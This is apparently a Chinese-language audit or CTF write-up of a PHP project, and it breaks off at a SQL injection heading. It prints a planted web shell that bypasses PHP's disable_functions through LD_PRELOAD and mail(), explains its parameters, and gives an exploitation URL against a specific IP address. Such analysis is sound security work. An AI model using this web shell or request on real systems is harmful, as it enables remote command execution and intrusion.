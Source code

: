 



# 1命令执行：（解决） 

## ✅ 漏洞概览

经过完整审计项目源码，发现了多个安全漏洞，其中最严重的是 **命令执行漏洞（Command Execution）**。以下是详细分析：

------

#### 1. 💥命令执行漏洞（核心漏洞）

**文件路径**: `www/bootstrap/test/bypass_disablefunc.php`

### 漏洞代码：

```php
$cmd = $_GET["cmd"];
$out_path = $_GET["outpath"];
$evil_cmdline = $cmd . " > " . $out_path . " 2>&1";

putenv("EVIL_CMDLINE=" . $evil_cmdline);
$so_path = $_GET["sopath"];
putenv("LD_PRELOAD=" . $so_path);

mail("", "", "", "");

echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>";
unlink($out_path);
```

### 漏洞类型：

- 利用 `LD_PRELOAD` 机制绕过 `php.ini` 中设置的 `disable_functions` 限制
- 通过环境变量 `EVIL_CMDLINE` 和共享库劫持，实现系统命令执行

### 利用参数说明：

- `cmd`：要执行的命令（如 `ls`、`cat` 等）
- `outpath`：命令输出保存路径
- `sopath`：恶意 `.so` 文件路径（用于注入）

### 利用示例：

```bash
http://121.4.91.93:12346/bootstrap/test/bypass_disablefunc.php?cmd=ls&outpath=/tmp/result&sopath=/var/www/bypass_disablefunc_x64.so
```

------

#### 2. 🐛SQL 注入漏洞
